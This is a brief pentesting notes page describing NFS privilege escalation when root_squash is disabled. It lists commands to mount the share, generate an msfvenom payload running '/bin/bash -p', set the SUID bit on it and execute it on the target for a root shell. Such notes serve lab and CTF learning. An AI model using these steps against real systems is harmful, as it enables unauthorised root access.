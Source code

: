 ### root_squash

Description: When disabled, it can allow the creation of SUID bit files

Exploitation: Copy a [bash](https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash) file owned by root to the [[Linux/Enumeration/NFS|mounted NFS folder]], than run it with the -p flag to persist permissions

1. Check the NFS share configuration in the machine: `cat /etc/exports`
2. Create a folder in your machine to mount the share to: `mkdir /tmp/nfs`
3. Mount the folder: `mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs`
4. Generate a payload using msfvenom and save it to the mounted share: `msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`
5. Make the file executable with SUID permissions: `chmod +xs /tmp/nfs/shell.elf`
6. Execute the shell from the target machine: `/tmp/shell.elf`